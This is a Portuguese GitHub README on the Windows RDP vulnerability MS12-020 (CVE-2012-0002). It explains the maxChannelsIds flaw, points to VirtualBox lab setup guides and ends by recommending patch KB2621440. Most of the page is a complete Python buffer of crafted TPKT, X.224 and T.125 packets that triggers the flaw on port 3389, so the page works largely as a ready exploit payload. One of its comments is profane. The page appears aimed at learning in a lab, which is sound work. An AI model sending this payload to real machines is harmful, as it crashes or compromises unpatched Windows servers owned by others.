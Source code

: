 # Exploring-MS12-020 / CVE-2012-0002

***"The Microsoft Remote Desktop Protocol (RDP) provides remote display
and input capabilities over network connections for Windows-based
applications running on a server. RDP is designed to support different
types of network topologies and multiple LAN protocols."***

 - O RDP é usado pelo "Terminal Services e Remote Desktop Services" e
   funciona no nível de kernel na porta 3389.
   
  - Existe uma vulnerabilidade que ocorre no manuseio do apontador
   pendente no campo maxChannelsIds do pacote T.125 ConnectMCSPDU que
   fica nesse estado de vulnerabilidade quando setado para menor/igual ao número 5.
   
  - Observe que nas versões do Windows pós-Vista (como 7 e 2008) "parece"
   necessário ter "Permitir conexões de computadores executando qualquer
   versão da área de trabalho remota "por ser vulnerável.
   
   - A code-exec ocorre durante a desconexão usuário. A capacidade de
   exploração depende da possibilidade de controlar o ESI ou o conteúdo
   apontado por ele.

![](https://ifconfig.dk/wp-content/uploads/2014/02/RDPkill1.png)

# Instalações
Para entender como criar e instalar uma VM com o SO - Win 7, recomendo acessar o seguinte link: [https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/](https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/) 

E para fazer a instalação do VirtualBox :
[https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads) 


# Código

O buffer que deve ser adicionado é o seguinte:

```python
import socket
import sys


buf=""
buf+="\x03\x00\x00\x13" # TPKT, Version 3, lenght 19
buf+="\x0e\xe0\x00\x00\x00\x00\x00\x01\x00\x08\x00\x00\x00\x00\x00" # ITU-T Rec X.224
buf+="\x03\x00\x01\xd6" # TPKT, Version 3, lenght 470
buf+="\x02\xf0\x80" # ITU-T Rec X.224
buf+="\x7f\x65\x82\x01\x94\x04" #MULTIPOINT-COMMUNICATION-SERVICE T.125

buf+="\x01\x01\x04\x01\x01\x01\x01\xff" # "Fuck you Chelios" packet
buf+="\x30\x19\x02\x04\x00\x00\x00\x00"
buf+="\x02\x04\x00\x00\x00\x02\x02\x04"
buf+="\x00\x00\x00\x00\x02\x04\x00\x00"
buf+="\x00\x01\x02\x04\x00\x00\x00\x00"
buf+="\x02\x04\x00\x00\x00\x01\x02\x02"
buf+="\xff\xff\x02\x04\x00\x00\x00\x02"
buf+="\x30\x19\x02\x04\x00\x00\x00\x01"
buf+="\x02\x04\x00\x00\x00\x01\x02\x04"
buf+="\x00\x00\x00\x01\x02\x04\x00\x00"
buf+="\x00\x01\x02\x04\x00\x00\x00\x00"
buf+="\x02\x04\x00\x00\x00\x01\x02\x02"
buf+="\x04\x20\x02\x04\x00\x00\x00\x02"
buf+="\x30\x1c\x02\x02\xff\xff\x02\x02"
buf+="\xfc\x17\x02\x02\xff\xff\x02\x04"
buf+="\x00\x00\x00\x01\x02\x04\x00\x00"
buf+="\x00\x00\x02\x04\x00\x00\x00\x01"
buf+="\x02\x02\xff\xff\x02\x04\x00\x00"
buf+="\x00\x02\x04\x82\x01\x33\x00\x05"
buf+="\x00\x14\x7c\x00\x01\x81\x2a\x00"
buf+="\x08\x00\x10\x00\x01\xc0\x00\x44"
buf+="\x75\x63\x61\x81\x1c\x01\xc0\xd8"
buf+="\x00\x04\x00\x08\x00\x80\x02\xe0"
buf+="\x01\x01\xca\x03\xaa\x09\x04\x00"
buf+="\x00\xce\x0e\x00\x00\x48\x00\x4f"
buf+="\x00\x53\x00\x54\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x04\x00\x00"
buf+="\x00\x00\x00\x00\x00\x0c\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x01\xca\x01\x00\x00\x00\x00"
buf+="\x00\x10\x00\x07\x00\x01\x00\x30"
buf+="\x00\x30\x00\x30\x00\x30\x00\x30"
buf+="\x00\x2d\x00\x30\x00\x30\x00\x30"
buf+="\x00\x2d\x00\x30\x00\x30\x00\x30"
buf+="\x00\x30\x00\x30\x00\x30\x00\x30"
buf+="\x00\x2d\x00\x30\x00\x30\x00\x30"
buf+="\x00\x30\x00\x30\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x04\xc0\x0c"
buf+="\x00\x0d\x00\x00\x00\x00\x00\x00"
buf+="\x00\x02\xc0\x0c\x00\x1b\x00\x00"
buf+="\x00\x00\x00\x00\x00\x03\xc0\x2c"
buf+="\x00\x03\x00\x00\x00\x72\x64\x70"
buf+="\x64\x72\x00\x00\x00\x00\x00\x80"
buf+="\x80\x63\x6c\x69\x70\x72\x64\x72"
buf+="\x00\x00\x00\xa0\xc0\x72\x64\x70"
buf+="\x73\x6e\x64\x00\x00\x00\x00\x00"
buf+="\xc0"

buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80"  # ITU-T Rec X.224
buf+="\x04\x01\x00\x01\x00" # MULTIPOINT-COMMUNICATION-SERVICE T.125
buf+="\x03\x00\x00\x08" #TPKT, Version 3, Length 8
buf+="\x02\xf0\x80" # ITU-T Rec X.224
buf+="\x28" # MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" # ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xef" # MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xeb" # MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xec"# MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c"  # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xed"# MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xee"# MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0b" # TPKT, Version 3, Lenght 12
buf+="\x06\xd0\x00\x00\x12\x34\x00"  #ITU-T Rec X.224

```
Por fim, a instalação da atualização de segurança KB2621440 através da atualização do Windows fecha esta vulnerabilidade. Com isso, espero que prove meu ponto de sempre manter seu sistema atualizado.
